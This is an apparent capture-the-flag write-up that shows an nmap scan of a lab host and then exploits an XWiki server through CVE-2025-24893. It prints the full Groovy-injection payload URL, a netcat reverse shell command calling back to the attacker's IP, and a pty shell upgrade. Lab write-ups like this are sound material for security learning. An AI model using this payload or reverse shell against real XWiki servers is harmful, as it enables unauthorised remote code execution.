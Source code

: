 ## Init

The ip I am assigned is `10.10.11.80`. I do a `nmap` scan and find some ports open.
```                                      
┌──(truelyyours㉿kali)-[~/tryhackme/SimpleCTF]
└─$ nmap -sV -A 10.10.11.80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 02:42 EDT
Illegal character(s) in hostname -- replacing with '*'
Illegal character(s) in hostname -- replacing with '*'
Nmap scan report for editor.htb* (10.10.11.80)
Host is up (0.097s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-server-header: Jetty(10.0.20)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   85.81 ms 10.10.16.1
2   44.21 ms editor.htb* (10.10.11.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```
It looks like an HTTP service running on port 80 and an xwiki on port 8080. Here we can access some posts by a user named `Neal Bagwell` and we can access the user's page as well `http://10.10.11.80:8080/xwiki/bin/view/XWiki/neal`. Of course usually port 80 is open but we have Xwiki on port 8080 so I lookup for any CVEs on Xwiki. And we have [**CVE-2025-24893**](https://www.offsec.com/blog/cve-2025-24893/)!

## CVE Exploit
There does not exist any working Metasploit module yet, but we have [this GitHub link](https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py) that implements the exploit to achieve remote RCE. We can use this to spawn a shell locally and navigate the target system. 
```
┌──(truelyyours㉿kali)-[~/htb/editor]
└─$ python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.16.16 4444 -e /bin/bash'
[*] Attacking http://10.10.11.80:8080
[*] Injecting the payload:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.16.16%204444%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

![[Pasted image 20250810030501.png]]

This shell is not that beautiful so I just do `python3 -c 'import pty; pty.spawn("/bin/bash")'` so have a better shell. Yaaye!




